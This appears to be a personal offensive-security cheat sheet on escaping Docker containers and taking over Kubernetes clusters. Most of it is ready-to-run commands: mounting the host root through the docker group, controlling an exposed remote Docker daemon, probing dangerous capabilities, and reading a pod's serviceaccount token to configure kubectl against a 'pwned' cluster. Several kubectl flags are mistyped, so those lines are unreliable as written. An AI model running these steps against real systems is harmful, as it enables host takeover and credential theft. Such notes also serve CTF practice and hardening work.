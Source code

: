 # Docker

## Are we in a container?
.dockerenv # file in /

cat /proc/self/cgroup

## Login with access token
docker login -e <email> -u oauth2accesstoken -p "<access token>" https://gcr.io
docker pull gcr.io/bsides-ctf-2017/zumbo

## Breakout
try to install the Docker client inside the container (Docker socket needs to be mounted inside!)
then you can talk to the Docker daemon on the host vm and inspect all other containers with root privileges

If the docker jail user is also in the docker group just do:
docker run -v /:/tmp -i -t bash bash

## List docker images remotely
docker --host tcp://192.168.1.101 images
docker --host tcp://192.168.1.101 ps

## create a new docker for wordpress, but then chroot the root-filesystem to /pwn folder
docker --host tcp://192.168.1.101 run -v /:/pwn -i -t wordpress /bin/bash

## contained.af - more Docker Breakouts
Do you have access to CAP_NET_RAW?
- CAP_NET_RAW allows you to use RAW and PACKET sockets and bind to any address for transparent proxying.
ping 1.1.1.1
wget eff.org
man capabilities

Is the socket syscall blocked?
- The socket syscall socket() creates an endpoint for communication and returns a file descriptor that refers to that endpoint.
nc -lvup 12345
nc -lvp 12345

Is the nanosleep syscall blocked?
- The nanosleep syscall suspends the execution of the calling thread until either at least the time specified in *req has elapsed, or the delivery of a signal that triggers the invocation of a handler in the calling thread or that terminates the process.
sleep 10

Is the container running with an apparmor profile?
- AppArmor is a Linux security module that allows for setting permissions and auditing processes.
cat /proc/self/attr/current

Do you have access to CAP_SYS_ADMIN?
- CAP_SYS_ADMIN syscall allows you to do all kinds of things. Override resource limits! Call perf_event_open! See the capabilities man page for the full list
Hint: Can you create a swap and mount it? Try it! No
Not quite... Try mounting a tmpfs with mount.
mount


Do you have access to CAP_SYS_TIME?
- CAP_SYS_TIME is the capability that allows a user to set the system clock or real-time (hardware) clock
Hint: How can you alter system date? (date --help) No
date -s '00:00:01'
man capabilities

Do you have access to CAP_SYSLOG?
- CAP_SYSLOG is the capability that allows a user to execute syslog privileged operations
Hint: What's a syslog capability? No
dmesg -c
man capabilities

Do you have access to CAP_SYS_MODULE?
- CAP_SYS_MODULE is the capability that allows a user to load and unload kernel modules
Hint: What kernel modules are loaded? How can you remove one? No
rmmod veth
man capabilities

## Breakout through Mounting
it is possible to mount volumes that contain files with capability bits set into containers

## list all capabilities
capsh --print
pscap
captest
filecap -a 2>&1 | grep -v "Unable to get capabilities"

## Referenc
./docker-containers-paper.pdf
https://www.nccgroup.trust/globalassets/our-research/us/whitepapers/2016/april/ncc_group_understanding_hardening_linux_containers-1-1.pdf

## Running Docker Bench for Security
https://github.com/docker/docker-bench-security

## Docker CVEs
docker version
? < 0.11.1 --> Shocker Breakout PoC

## Kubernetes makes cluster compromise trivial as it will use the serviceaccount token without additional prompting
cat /var/run/secrets/kubernetes.io/serviceaccount
kubectl exec a_pod - cat /flag .
Details: https://gist.github.com/tmc/8cd2364f7b6702ac6318c64a3d17e32d
kubectl config set-cluster pwned --erver=https://${public_ip} -insecure-skip-tls-verify
kubectl config set-credentials pwn -token=${serviceacount_token}
kubectl config set-context pwned --luster=pwned --ser=pwn
kubectl config use-context pwned


tags: docker breakout escape
